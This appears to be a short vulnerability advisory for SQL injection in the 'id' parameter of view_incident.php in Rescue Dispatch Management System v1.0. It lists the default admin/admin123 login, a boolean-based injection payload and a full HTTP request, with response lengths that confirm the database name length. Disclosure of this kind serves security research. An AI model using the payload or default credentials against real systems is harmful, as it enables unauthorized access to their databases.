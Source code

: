 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/incidents/view_incident.php?id=

Vulnerability location: /rdms/admin/incidents/view_incident.php?id=,id

[+] Payload: /rdms/admin/incidents/view_incident.php?id=4%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/incidents/view_incident.php?id=4%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 860
![image](https://user-images.githubusercontent.com/54017627/170462424-d3e4f5e1-f351-4324-bce5-e4d5a0d3818c.png)

![image](https://user-images.githubusercontent.com/54017627/170462234-944c285c-c356-4685-a8fe-c6e6a3282fc1.png)

When length (database ()) = 7, Content-Length: 749
![image](https://user-images.githubusercontent.com/54017627/170462393-dc96e199-f0b5-4a3f-ab46-b8f67853bea1.png)

![image](https://user-images.githubusercontent.com/54017627/170462156-e69db736-7110-4ca0-977a-b29b9bd63bb8.png)
